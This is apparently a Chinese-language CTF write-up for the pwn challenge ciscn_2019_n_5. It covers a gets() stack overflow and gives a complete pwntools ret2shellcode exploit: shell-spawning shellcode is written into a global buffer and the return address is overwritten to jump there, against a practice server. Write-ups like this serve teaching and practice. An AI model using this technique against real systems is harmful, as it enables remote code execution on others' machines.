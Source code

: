 ```yaml
---
title: ciscn_2019_n_5
date: 2023-10-24
categories:
  - CTF
  - Pwn
---
```


## 前置工作

先来个 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/桌面]
└─$ checksec ciscn_2019_n_5       
[*] '/home/ela/桌面/ciscn_2019_n_5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x400000)
    Stack:    Executable
    RWX:      Has RWX segments
```

NX unknown，感觉像是可以构建 ShellCode

用 IDA 64 打开附件 `ciscn_2019_n_5`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char text[30]; // [rsp+0h] [rbp-20h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  puts("tell me your name");
  read(0, name, 0x64uLL);
  puts("wow~ nice name!");
  puts("What do you want to say to me?");
  gets((__int64)text);
  return 0;
}
```

如果是 ret2shellcode 的话，可以把 ShellCode 弄到 `name` 里面，然后在 `gets()` 函数中造成栈溢出，让程序能跑到 `name` 的位置上

经过查找，发现 `name` 的位置在 `0x601080`

## 编写 Exp

```python
from pwn import *
context.binary = ELF("./ciscn_2019_n_5")

io = remote("node4.buuoj.cn", 26536)
shellcode = asm(shellcraft.sh())
name_addr = 0x601080
io.recvuntil(b"tell me your name\n")
io.sendline(shellcode)
payload = b"a"*(0x20+0x8)+pack(name_addr, 64)
io.recvuntil(b"What do you want to say to me?\n")
io.sendline(payload)
io.interactive()

```

运行过后使用 `cat flag`，获得 Flag 为 `flag{88d7f7c4-dfe4-4ed5-8e06-c300f1013ae2}`